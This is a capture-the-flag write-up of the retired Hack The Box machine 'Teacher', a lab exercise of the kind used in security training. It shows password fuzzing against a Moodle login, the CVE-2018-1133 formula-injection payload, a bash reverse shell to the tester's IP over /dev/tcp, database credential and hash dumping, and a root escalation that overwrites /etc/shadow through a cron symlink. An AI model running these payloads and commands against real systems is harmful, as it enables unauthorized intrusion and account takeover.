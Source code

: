 # Teacher

This is the write-up for the box Teacher that got retired at the 20th April 2019.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.153    teacher.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/teacher.nmap 10.10.10.153
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

## Checking HTTP (Port 80)

The web page is a website of a fictional school _"Blackhat Highschool"_ with some links that don't forward anywhere and stock text.
In the HTML source code of _/gallery.html_ is one suspicious line:
```html
<li><a href="#"><img src="images/5.png" onerror="console.log('That\'s an F');" alt=""></a></li>
```

When clicking on _/images/5.png_ it shows an error:
```markdown
The image "http://10.10.10.153/images/5.png" cannot be displayed because it contains errors.
```

Downloading it with `wget` and looking what kind of file type this is:
```markdown
file 5.png
5.png: ASCII text
```

It is a text file that can be read:
```markdown
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

Lets search for hidden directories with **Gobuster** to see where these credentials could be used:
```markdown
gobuster -u http://10.10.10.153 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

If finds the directory _/moodle_ that forwards to a [Moodle platform](https://moodle.org/) which is an Open-Source _Learning Management System (LMS)_ written in PHP.

All links forward to the login page _/moodle/login/index.php_ as our access is restricted.
By sending this to a proxy tool like **Burpsuite** we can see the request parameters and fuzz for the last character of the password with **Wfuzz**:
```markdown
wfuzz -u http://10.10.10.153/moodle/login/index.php -d 'anchor=&username=Giovanni&password=Th4C00lTheachaFUZZ' -w /usr/share/seclists/Fuzzing/special-chars.txt
```

The _number sign (#)_ responds with a different character length, so this is probably the last character of the password.
Login with the username _Giovanni_ and the password _Th4C00lTheacha#_ works.

### Exploiting Moodle

To exploit **Moodle**, the installed version number has to be found.
This can be done by clicking on _"Moodle Docs for this page"_ in the footer of the page, which forwards to the [Moodle documentation for version 3.4](https://docs.moodle.org/34/en/Participants) that was [released in November 2017](https://docs.moodle.org/dev/Moodle_3.4_release_notes).

After searching for vulnerabilities for this version, a blog post from the [RIPS TECH Blog](https://blog.ripstech.com/2018/moodle-remote-code-execution/) explains a Remote Code Execution with the name **Evil Teacher** or **CVE-2018-1133**.

Lets follow the steps of RIPS TECH explanation to exploit this vulnerability.

Creating a quiz:
```markdown
Site home --> Algebra --> Gear symbol on the top right --> Turn editing on
```
```markdown
Add an activity or resource --> Quiz --> Add
```

Giving it a name, changing nothing else in the configuration and saving it by clicking on _"Save and display"_.

![Creating a quiz](teacher_web-1.png)

Creating question for the quiz:
```markdown
Edit quiz --> Add --> a new question --> Calculated
```

![Creating question](teacher_web-2.png)

```markdown
Question name: Test question name

Question text: Is this a question?

Answer 1 formula = /\*{a\*/\`$_REQUEST[cmd]\`;//{x}}
```

![Payload in answer formula](teacher_web-3.png)

```markdown
Save changes --> Do no synchronise --> Next page
```

The current page can be sent to **Burpsuite** to test code execution:
```markdown
GET /moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&cmd=ping+-c+1+10.10.14.2
```

The test command will ping my IP once, so lets listen on incoming ICMP traffic with `tcpdump`:
```markdown
tcpdump -i tun0 -n icmp
```

After sending the request, the ping packet reaches my client and proofs command execution.
Lets execute a reverse shell command:
```markdown
GET /moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/9001+0>%261'

# Command URL-decoded:
bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In the directory _/var/www/html/moodle_ are the configuration files. In _config.php_ are credentials to the **MySQL database**:
```markdown
(...)
dbname = 'moodle';
dbuser = 'root';
dbpass = 'Welkom1!';
(...)
```

Connecting to the database:
```markdown
mysql -u root -D moodle -p
```
```markdown
MariaDB [moodle]> show databases;

MariaDB [moodle]> select id, username, password from mdl_user;
```
```markdown
+------+-------------+--------------------------------------------------------------+
| id   | username    | password                                                     |
+------+-------------+--------------------------------------------------------------+
|    1 | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
|    2 | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
|    3 | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| 1337 | Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+------+-------------+--------------------------------------------------------------+
```

There are password hashes found and the password hash of _Giovannibak_ is different than the others as it is 32 characters long and thus probably a **MD5 hash**.

When searching for the MD5 hash on **Hashes.org** it is found and decodes to:
> expelled

Switching user to _giovanni_:
```markdown
su - giovanni
```

The password works and we get logged in as _giovanni_.

### Privilege Escalation to root

In the home directory _/home/giovanni_ is a folder called _/work_ and in there are files that according to their date, changed something today.
This could be a hint that an automated **cronjob** is doing this.

Running processes of all users can be enumerated with [pspy](https://github.com/DominicBreuker/pspy):
```markdown
wget 10.10.14.2/pspy32

./pspy32
```

After waiting for a while **pspy** detects the commands that are running:
```markdown
/bin/sh -c /usr/bin/backup.sh
```

Contents of _/usr/bin/backup.sh_:
```markdown
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

The script compresses some files and after decompressing them, changes the permissions so everyone can read, write and execute them.
By creating a **symlink** from _/home/giovanni/work/tmp_ to _/etc/shadow_, the permissions of the **Shadow file** can be changed:
```markdown
rm -rf ./tmp

ln -s /etc/shadow /home/giovanni/work/tmp
```

Changing password of root to password of _giovanni_:
```markdown
echo 'root:$6$RiDoH4VN$WamVNCkuoZyN1uM6hmyKKt6GwGWAamiQM3SYCrr5lmUYnmV7vpBNkYZCHqjh7UDtsdF8NbGjM7dJPIsxeFkrx0:17709:0:99999:7:::' >> /etc/shadow
```

With the password _"expelled"_ it is now possible to change users to root!
```markdown
su - root
```

